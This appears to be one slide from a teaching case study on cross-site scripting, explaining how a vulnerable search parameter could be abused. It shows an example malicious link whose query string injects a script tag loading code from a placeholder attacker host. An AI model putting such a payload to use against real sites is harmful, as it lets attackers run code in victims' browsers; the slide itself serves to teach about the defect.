

# Case Study: Cross-Site Scripting Defect (Slide 3 of 6)
While this example is harmless, the user might then take advantage of the vulnerability, sending an email to a victim that includes a link such as:
www.innocentsite.com?q=
<script%20src="http://attackersite.com/badscript.js">
</script>
84